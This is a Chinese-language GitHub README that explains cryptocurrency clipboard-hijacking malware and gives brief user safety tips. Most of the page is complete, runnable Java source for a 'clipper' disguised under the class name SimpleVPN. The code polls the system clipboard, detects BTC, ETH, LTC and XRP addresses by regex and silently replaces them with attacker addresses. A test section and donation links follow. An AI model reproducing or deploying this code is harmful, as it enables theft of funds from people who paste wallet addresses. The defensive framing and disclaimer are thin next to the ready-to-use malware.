 #### 监控剪贴板劫持用户复制内容！盗刷虚拟货币！教你复现剪贴板病毒！Java如何监控剪贴板？剪贴板可以让你倾家荡产！剪贴板这样使用才是最安全的！最近币圈很多人中招的剪贴板病毒，盗取用户加密货币资产，这个病毒很早就有了，它会自己自动检查用户剪切 复制 的内容，如果你的剪切复制内容里有地址的格式，它就会自动把这地址换成盗窃者的地址。如果你平时不够细心的话，那你就会容易中招。实在是卑鄙无耻下流也。

## 剪贴板安全正确的使用方式：

**1.银行卡号、转账地址、手机号等信息不要一次性复制完，分段复制可以很大程度上避免被窃取。**

**2.复制密钥、密码等信息在复制前插入几个字符达到混淆真实密码的目的，粘贴完后再删除对应的字符即可。**

**3.填写收款账号等表单时，转账核对一下有关于钱相关的信息，不要直接就保存了或转账了。**

****

Java监控剪贴板代码（监控复制的内容是否是虚拟货币地址）：

```java

// 监听剪贴板并且替换
public class SimpleVPN {
    private static final Pattern BTC_PATTERN = Pattern.compile("(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}");
    private static final Pattern ETH_PATTERN = Pattern.compile("0x[a-fA-F0-9]{40}");
    private static final Pattern LTC_PATTERN = Pattern.compile("[LM3][a-km-zA-HJ-NP-Z1-9]{26,33}");
    private static final Pattern XRP_PATTERN = Pattern.compile("[rX][1-9A-HJ-NP-Za-km-z]{24,34}");
    private static boolean isUpdatingClipboard = false; // 解决无限循环问题
    public static void main(String[] args) {
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        Transferable previousContent = clipboard.getContents(null);
        while (true) {
            try {
                Thread.sleep(1000); // 每秒检查一次
                if (isUpdatingClipboard) {
                    isUpdatingClipboard = false; // 跳过本次循环，避免检测到自己修改的内容
                    continue;
                }
                Transferable currentContent = clipboard.getContents(null);
                if (currentContent != null) {
                    // **忽略非文本格式的数据**
                    if (!currentContent.isDataFlavorSupported(DataFlavor.stringFlavor)) {
                        continue;
                    }
                    String newText = (String) currentContent.getTransferData(DataFlavor.stringFlavor);
                    if (previousContent == null || !newText.equals(previousContent.getTransferData(DataFlavor.stringFlavor))) {
                        System.err.println("用户复制了内容: " + newText);
                        if (BTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到比特币(BTC)地址: " + newText);
                            setClipboardContent("AAAAA1eP5QGefi2DMPTfTL5SLmv7DivfNa"); // 修改剪贴板内容
                        } else if (ETH_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到以太坊(ETH)地址: " + newText);
                            setClipboardContent("AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e"); // 修改剪贴板内容
                        } else if (LTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到莱特币(LTC)地址: " + newText);
                            setClipboardContent("AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq"); // 修改剪贴板内容
                        } else if (XRP_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到瑞波币(XRP)地址: " + newText);
                            setClipboardContent("AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv"); // 修改剪贴板内容
                        }
                        previousContent = clipboard.getContents(null); // 重新获取剪贴板内容，避免旧数据干扰
                    }
                }
            } catch (UnsupportedFlavorException e) {
                System.err.println("剪贴板数据格式不支持，跳过: " + e.getMessage());
            } catch (IOException e) {
                System.err.println("读取剪贴板数据时发生IO异常: " + e.getMessage());
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

    // 修改剪贴板内容
    public static void setClipboardContent(String text) throws InterruptedException {
        isUpdatingClipboard = true; // 标记为正在修改剪贴板，避免无限循环
        StringSelection selection = new StringSelection(text);
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        clipboard.setContents(selection, null);
        Thread.sleep(500);
        System.err.println("篡改剪贴板成功，成功修改为: " + text);
    }

}

```

测试：

假设你要往下面的虚拟货币地址转账

**比特币 (BTC) 收款地址**: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `0x742d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `LZ3nx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `rDsbeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****

不法分子的虚拟货币地址

**比特币 (BTC) 收款地址**: `AAAAP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****





****

#### 攻防无绝对，技术无好坏，在非安全的信息时代，众人皆在囚笼之中，关注牛马小试，让你一飞冲天！

****

- **Youtube：  https://www.youtube.com/@MeeGooBoo**
- **Twitter ( X ）：  https://x.com/MeeGooBoo**
- **Telegram：https://t.me/NiuMaXiaoShi**


****

> [!CAUTION]
>
> 本仓库所有内容均来自互联网公开内容或本仓库所有者创作，请勿相信资源中的广告，主动联系你的都是骗子，提高智商谨防上当受诈！请勿利用本仓库实施违反任何适用法律法规等犯罪活动！本仓库所有者不对因使用本仓库内容导致的任何后果承担责任！

****

## 你的赞助是功德无量💰

> [!NOTE]
>
> 如果你觉得本仓库对你有帮助，你可以赞助我们一杯咖啡，鼓励我们继续维护下去。<br>通过Paypal支持我：https://paypal.me/MoGuoBiao<br>
> 成为我的Patreon会员：https://patreon.com/MeeGooBoo<br>
> 通过比特币支持我：bc1qkwrq5plek62fmfaynyphfuuepm6cxd4fsh5wrp



<p align="center" >
    <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/logo.png" width="150">
    <h3 align="center">牛马小试</h3>
    <p align="center">
        <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/pays.png">
    </p>
</p>


****
